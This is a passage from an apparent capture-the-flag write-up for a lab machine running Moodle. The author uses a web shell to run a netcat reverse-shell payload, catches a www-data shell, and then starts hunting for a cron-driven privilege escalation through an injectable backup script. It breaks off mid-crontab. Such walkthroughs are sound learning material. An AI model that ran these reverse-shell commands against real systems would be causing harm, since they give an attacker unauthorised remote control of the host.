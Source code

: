 ```bash
```
Yes! We have now RCE! So we bind a reverse shell.

```bash
======== Terminal 1 =========
╰─ curl -v http://10.10.169.13:9020/moodle/blocks/rce/lang/en/block_rce.php\?cmd\=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.9.0.241%201337%20%3E%2Ftmp%2Ff
*   Trying 10.10.169.13:9020...
* Connected to 10.10.169.13 (10.10.169.13) port 9020 (#0)
> GET /moodle/blocks/rce/lang/en/block_rce.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.9.0.241%201337%20%3E%2Ftmp%2Ff HTTP/1.1
> Host: 10.10.169.13:9020
> User-Agent: curl/7.74.0
> Accept: */*
>


======== Terminal 2 =========
╰─ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.9.0.241] from (UNKNOWN) [10.10.169.13] 35964
bash: cannot set terminal process group (748): Inappropriate ioctl for device
bash: no job control in this shell
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$
```
But we can't read the user's flag...

So, let's scan the machine again to escalate our privileges to the `plot_admin` user!

We found a backup script in the `home` directory of the user...

```bash
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$ cat /home/plot_admin/backup.py
import os

moodle_location = "/var/www/uploadedfiles/filedir/"
backup_location = "/home/plot_admin/.moodle_backup/"

os.system("/usr/bin/rm -rf " + backup_location + "*")

for (root,dirs,files) in os.walk(moodle_location):
    for file in files:
        os.system('/usr/bin/cp "' + root + '/' + file + '" ' + backup_location)
```

It's not a so secure script, but we can't do anything with it, unless we have a `cronjob` running it...

```bash
www-data@plotted-lms:/var/www/9020/moodle/blocks/rce/lang/en$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
```